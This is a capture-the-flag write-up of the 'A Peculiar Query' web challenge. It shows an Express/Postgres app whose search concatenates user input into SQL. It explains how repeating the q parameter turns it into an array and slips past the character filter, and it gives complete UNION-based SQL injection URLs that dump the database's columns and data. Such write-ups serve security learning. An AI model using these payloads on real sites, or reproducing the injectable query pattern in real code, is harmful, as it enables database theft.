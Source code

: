 # **A Peculiar Query (180pts) (73 Solves)**

![TASK](https://imgur.com/A6EHPkW.png)

I really liked this web task , we are given this web page that have a search functionality 

![TASK](https://imgur.com/gRutDcV.png)

And we can read the source code 

```javascript

const express = require("express");
const rateLimit = require("express-rate-limit");
const app = express();
const { Pool, Client } = require("pg");
const port = process.env.PORT || 9090;
const path = require("path");

const client = new Client({
	user: process.env.DBUSER,
	host: process.env.DBHOST,
	database: process.env.DBNAME,
	password: process.env.DBPASS,
	port: process.env.DBPORT
});

async function query(q) {
	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
	return ret;
}

app.set("view engine", "ejs");

app.use(express.static("public"));

app.get("/src", (req, res) => {
	res.sendFile(path.join(__dirname, "index.js"));
});

app.get("/", async (req, res) => {
	if (req.query.q) {
		try {
			let q = req.query.q;
			// no more table dropping for you
			let censored = false;
			for (let i = 0; i < q.length; i ++) {
				if (censored || "'-\".".split``.some(v => v == q[i])) {
					censored = true;
					q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
				}
			}
			q = q.substring(0, 80);
			const result = await query(q);
			res.render("home", {results: result.rows, err: ""});
		} catch (err) {
			console.log(err);
			res.status(500);
			res.render("home", {results: [], err: "aight wtf stop breaking things"});
		}
	} else {
		res.render("home", {results: [], err: ""});
	}
});

app.listen(port, function() {
	client.connect();
	console.log("App listening on port " + port);
});

```

## Overview ##

It's pretty obvious that we have an sql injection here ( we are concatenating the user input )
> 	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);

But as we can see some filters are here :'( these characters are filtered : [',-,",.] , after some tries i have figured that it will impossible to bypass 
them so i started looking to some JS tricks.
As we can see the filter function is looping over our input and checks if there are some prohibited characters and then it will replace 
them with "*" , For example if we type 
> hello"or 1=1 -- -

Our input will be changed to :
> hello************

```javascript
let q = req.query.q;
let censored = false;
for (let i = 0; i < q.length; i ++) {
	if (censored || "'-\".".split``.some(v => v == q[i])) {
			censored = true;
			q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
			}
}
```			

And finally it's using substring function to limit our input's length to 80 characters

```javascript
q = q.substring(0, 80);
const result = await query(q);
res.render("home", {results: result.rows, err: ""});
```
Hmmm everything seems okay nah ? but it's a ctf web task we have to find some vulnerabilities ! let's pass to how i did to solve it now, enough boring things

## Exploitation ##

The first thing i thinked about was http parameter pollution in express (read about it **[HERE](https://github.com/expressjs/express/issues/1824)** if you want ) ,briefly when we enter a get parameter multiple times express 
has a weird interpretation , it will process this parameter as an array for example here, if we pass this in the query :
> ?q=hello&q=allo&q=fword

**req.query.q** will be parsed as an array **["hello","allo","fword"]** , so if we go further when we will be iterating of **q** variable we will be comparing each array field with the filters 
for example, if we pass this query :
>q="or 1=1 -- -&q=fword

we will firstly compare **"or 1=1 -- -** and then the second field **fword** with these filtered chars **[',-,",.]** , they are not equal ! , Youupi we can get our flag now as we passed the check .

Unfortunately , it's not that easy ,have you forgot the substring function ? an array has not a built in substring function so when we reach the substring part this will raise an error so we won't execute the sql query :/
Javascript weird behaviour will save us this time ! if we do **[]+[]** the result is a string , the sum of two arrays is a string so if we enter a **"** in one query parameter
we will enter this part 

```javascript
censored = true;
q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
```
and arrays have a built in slice function so the result of **[]+"*"+[]** will be a string , we can now enter our payload with **q='** in the end to ensure that our array will be a string when it reaches the substring part
For example :
>q='or 1=1 -- -&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q='

will let us pass !

**FILTERS BYPASSED SUCCESSFULLY**

To test the number of q parameters and debug the app , i changed a little bit the source code and hosted the web app locally , you can find the modified source code **HERE** if you want to test :D

![TASK](https://imgur.com/upRUoxR.png)


The next part is pretty classic , a simple sql injection , we will first dump the columns name (we know the table name from the source code)
> q=%27union%20SELECT%20column_name%20FROM%20information_schema.columns%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/XAVrsrR.png)


and finally we find a column named **crime** so our final payload will be :
>HOST/?q=%27union%20SELECT%20crime%20FROM%20criminals%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/7KWe6dF.png)

And Congratulations ! I want to thank the organizers for this great CTF and fun tasks , i have really enjoyed participating

